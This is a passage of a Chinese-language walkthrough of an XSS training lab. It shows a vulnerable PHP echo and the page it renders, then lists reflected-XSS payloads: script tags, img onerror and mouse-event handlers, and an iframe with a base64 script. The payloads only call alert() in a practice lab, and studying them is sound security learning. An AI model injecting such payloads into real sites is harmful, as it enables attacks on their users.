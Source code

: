 于是就会有弹窗

![Untitled](xss-lab%2032cbdf3646914878b34975977f2cc833/Untitled.png)

所以,,,,对于源代码

```php
echo "<h2 align=center>欢迎用户".$str."</h2>";
```

如果我们传入参数 $str = `<script>alert(\"redqx\")</script>`

echo就会触发一个弹窗

因为源代码自定义了弹窗函数

所以就会

```php
<script>
window.alert = function()  //hook弹窗函数,也就是自定义了一个弹窗函数
{     
    confirm("完成的不错！");
    window.location.href="level2.php?keyword=test"; 
}

</script>
```

在输入参数后,html代码就变为

```html
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level2.php?keyword=test"; 
}
</script>
<title>欢迎来到level1</title>
</head>
<body>
<h1 align=center>欢迎来到level1</h1>
<h2 align=center>欢迎用户<script>alert(/redqx/)</script></h2><center><img src=level1.png></center>
<h3 align=center>payload的长度:31</h3></body>
</html>
```

# level2

标签闭合+ 事件

```php
"><script>alert(/redqx/)</script>

"> <img src='666' onerror=alert()> <"
"> <img src=666 onmouseout="alert()"> <"
"> <img src=1 onmouseover="alert()"> <"
"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+"> <"
```
